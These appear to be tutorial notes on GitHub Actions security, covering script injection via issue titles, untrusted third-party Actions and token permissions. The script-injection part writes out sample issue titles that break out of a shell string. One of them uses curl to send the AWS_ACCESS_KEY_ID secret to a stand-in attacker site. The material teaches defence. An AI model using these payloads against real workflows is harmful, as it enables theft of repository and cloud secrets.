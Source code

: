 # Section 10: Security & Permissions

## Script Injection
```
A value, set outside a Workflow, is used in a Workflow
Example(s):
    - Issue title used in a Workflow shell command
        -- Workflow / command behavior could be changed
```
Example Steps:
1. Create an issue entitled `Something's wrong!`
```
Workflow(script-injection.yml) runs as expected
```
2. Create an issue entitled `a";echo Got your secrets"`
```
Workflow(script-injection.yml) runs with unexpected behavior:
> echo Got your secrets

How it works:
> `a"` closed Workflow(script-injection.yml)'s `issue_title="`
> `;echo Got your secrets` injected unexpected behavior
> trailing `"` closed Workflow's trailing `"`

Original Command:
> issue_title="${{ github.event.issue.title }}"

Final command:
> issue_title="a";echo Got your secrets""
```
3. Create an issue entitled `a"; curl http://my-bad-site.com?abc=$AWS_ACCESS_KEY_ID`
```
How it works:
> Does similar trick as Example 2
> Attacker can extract interpolated environment variable `AWS_ACCESS_KEY_ID` and store it somewhere else
```

## Malicious Third-Party Actions
```
Actions can perform any logic, including potentially malicious logic
Example(s):
    - A third-party Action that reads and exports your secrets
Solution(s):
    - Only use trusted Actions and inspect code of unknown / untrusted authors
```
### Using Actions Securely
#### Only use your own Actions
```
Pros: Highest level of security
Cons: Considerable amount of effort
```
#### Only use Actions by verified creators
![Github Verified Creator](./images/GitHub-verified-creator.png)
Look for `Creator verified by GitHub` check mark
```
Pros: Less amount of effort
Cons: Still not a 100% guarantee
```
#### Use all public Actions
```
Pros: Solves most of the problems you might encounter
Cons:
  - Lowest level of security
  - You must analyze the Action code first before using it
```

## Permission Issues
```
Avoid overly permissive permissions (Least Privilege Principle)
Example(s):
    - Only allow checking out code ("read-only")
Solution(s):
    - GitHub Actions supports fine-grained permissions control
```
- [Permissions for the GITHUB_TOKEN](https://docs.github.com/en/actions/security-guides/automatic-token-authentication#permissions-for-the-github_token)
- [Assigning permissions to jobs](https://docs.github.com/en/actions/using-jobs/assigning-permissions-to-jobs)
- [About security hardening with OpenID Connect](https://docs.github.com/en/actions/deployment/security-hardening-your-deployments/about-security-hardening-with-openid-connect)
- [Configuring OpenID Connect in Amazon Web Services](https://docs.github.com/en/actions/deployment/security-hardening-your-deployments/configuring-openid-connect-in-amazon-web-services)